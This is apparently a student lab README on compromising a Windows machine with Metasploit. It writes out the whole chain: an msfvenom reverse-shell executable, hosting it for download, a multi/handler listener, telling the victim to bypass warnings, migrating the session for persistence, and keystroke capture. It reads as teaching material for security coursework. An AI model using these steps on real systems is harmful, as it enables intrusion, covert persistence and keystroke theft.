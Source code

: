 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## Output:
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/375d8da6-6fb2-4d07-90c8-1d7aea6c3044)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output:
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/ef4c1d91-51e5-4c0c-9ca2-151dcd95ddd4)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/30b1c7b9-ad1b-4e64-926e-3197e7a149fe)

Start apache server sudo systemctl apache2 start
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/c500bb08-55eb-49bf-932c-b7a6fe5e3750)

Check the status of apache2


![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/f5c5a425-b973-4828-a6e3-3e495250854e)

Invoke msfconsole:

## Output:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit 

![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/5bc85898-4010-4bc8-afb5-c3e6a347797c)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/99076e1d-5458-4584-abbf-027d43b80d26)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/72f3460f-ac31-451a-9798-4d523bc0e3d7)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/47ef0ebf-fdfc-4038-8777-c5c756398139)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/0ace151b-89b8-40bc-a526-cbcca1f13a1b)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/fa7bbb58-fe0d-4f65-8c47-27baa5324155)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/NAVEENMATHIVANAN/Compromising-windows-using-Metasploit/assets/119394582/badb58fc-2505-428a-80ef-5d6fe693d029)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
